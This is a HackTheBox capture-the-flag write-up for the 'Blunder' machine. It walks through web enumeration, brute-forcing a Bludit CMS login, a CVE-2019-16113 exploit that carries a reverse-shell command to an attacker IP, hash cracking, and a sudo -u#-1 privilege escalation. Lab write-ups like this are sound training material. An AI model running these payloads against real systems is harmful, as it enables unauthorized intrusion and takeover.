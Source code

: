 # Blunder | HackTheBox

### 1. Scan
```bash
root@kali:/home/kali/Desktop/htb# nmap -sV 10.10.10.191 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 22:39 EDT
Stats: 0:07:28 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.45% done; ETC: 22:49 (0:02:18 remaining)
Nmap scan report for 10-10-10-191.tpgi.com.au (10.10.10.191)
Host is up (0.34s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 583.32 seconds
```
The only service currently available is a HTTP web server.


### 2. Enumerate web server
Checked every page, only really 2 pages accessable through links, plus an image directory that can be explored but nothing that stood out as interesting. I began enumerating the pages using dirbuster, recursebuster and gobuster. Through these tools I was able to find the admin page located at: 10.10.10.191/admin/, however not much else. I knew there had to be something else, but it just wasn't revealing itself. I just resolved to enumerating everything possible, trying out different tools and techniques to try and find something.  
  
When using wfuzz to search for accessible files, I picked up several files, including one called "todo.txt".

```bash
kali@kali:/usr/share/wordlists/dirbuster$ wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -z file,/usr/share/wordlists/wfuzz/general/extensions_common.txt --sc 200 http://10.10.10.191/FUZZFUZ2Z
...
000007225:   200        70 L     157 W    2385 Ch     "admin - /"                               
000020012:   200        0 L      5 W      30 Ch       "install - .php"
000049839:   200        1 L      4 W      22 Ch       "robots - .txt"
000087027:   200        4 L      23 W     118 Ch      "todo - .txt"
```

Reading this file, it contains:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

This reveals a possible user that can be used with the admin login form. I still couldn't figure out how to get the password. I searched everywhere, ran a few more enumeration passes but came up empty handed. This was a huge rabbit hole and I couldn't really figure out where to go.  

### 3. Discover the password
I considered the possibility that I might need to use a wordlist to crack the login page. I searched online and found a vulnerability that allowed enumeration of passwords in Blundit. I thought I could use this to attack the login page and find out the password, but this didn't work.  
https://github.com/bludit/bludit/pull/1090  
  
After a while of getting nowhere I got a hint from the HTB forums to use what was in front of me, which sparked the idea to construct a custom wordlist from the page's content, and use that in the script.

```bash
kali@kali:~/Desktop/htb$ curl http://10.10.10.191/ | sed 's/<\/*[^>]*>//g' > blogcontent.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7562  100  7562    0     0   9370      0 --:--:-- --:--:-- --:--:--  9358

kali@kali:~/Desktop/htb$ python bluditenum.py
...
[*] Trying: video
[*] Trying: |
[*] Trying: Book
[*] Trying: (2007).
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

### 4. Log in and do more enumeration
Logging in with the creds reveals a pretty ordinary looking back-end. The only thing that stood out to me was the possiblility of a PHP webshell through one of the image-upload forms. There were a few to look at, but none of the ones I found seemed to work.  
  
By using view-source on the page, I was able to find out the Bludit CMS version, and then do a search for vulnerabilities.  
I found this one which looked good: https://www.cvedetails.com/cve/CVE-2019-16113/  

### 5. Gain access through exploit
I went to use the metaspoilt module first. From what I could tell by discussing with others later on, this SHOULD have worked, but for some reason it just kept failing. I tried attempting to debug it using Wireshark, but nothing stood out as being a problem. Eventually I went looking for another way to do the exploit, and found a different script: https://github.com/cybervaca/CVE-2019-16113. To my relief, this one ended up working.  

```bash
kali@kali:~/Desktop/htb/CVE-2019-16113$ python CVE-2019-16113.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c "bash -c 'bash -i >& /dev/tcp/10.10.14.20/1337 0>&1'"
[+] csrf_token: d1b01000e24bf5af6f34ead174816adb331cc63e
[+] cookie: 822n2v20moq7vek532q4ef1de6
[+] csrf_token: 08099658578243abe74bdf2ae00d181dac236cf4
[+] Uploading wnqirypr.jpg
[+] Executing command: bash -c 'bash -i >& /dev/tcp/10.10.14.20/1337 0>&1'
[+] Delete: .htaccess
[+] Delete: wnqirypr.jpg
```

### 6. Enumerate from the foothold
This exploit gained me the www-data user, from which I could enumerate quite a bit, but of course the www-data permissions prevented me from actually reading a lot of files. However I had an idea of what might be accessible, and so prioritised checking the network service files, including the ftp service that was noticed during the scan. In the /ftp directory I found a note amongst some random files:

```bash
www-data@blunder:/ftp$ cat note.txt

Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
```

This seemed to obviously suggest a password was located somewhere, just in a different location. This led to some more desperate searching, making heavy use of grep to search inside directories with a lot of stuff. That was how I found a password hash.
```bash
www-data@blunder:/var/www/bludit-3.10.0a$ grep -R password
...
bl-content/databases/users.php:        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
```
Using Crackstation, I was able to find out this hash corresponds to the plaintext password of Password120.

### 7. Try password with users
I knew at this point this was probably the password to a user account, so it was just a matter of trying it with each user account on the machine.
```bash
www-data@blunder:/home$ su - hugo
Password: Password120

hugo@blunder:~$ cat user.txt
```
The password belonged to the user hugo, which allowed me to claim the user flag.

### 8. Escalate privileges
When I got the user, straight away I did sudo -l and noted the root account appeared to be disabled for the user. This didn't bode well for getting to root.
```bash
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

After some more searching online, I found a page: https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability that did a great job of explaining a recent vulnerability found with sudo, that would allow me to bypass the restriction.  

By doing sudo and supplying a uid of -1, it gets treated the same as the root user's id of 0, which runs the given command as root despite anything dictated in the sudoers file.

My current situation matched the requirements for exploitation, so I knew I had to try it.
```bash
hugo@blunder:~$ sudo -u#-1 bash   

root@blunder:/home/hugo# whoami
root
```


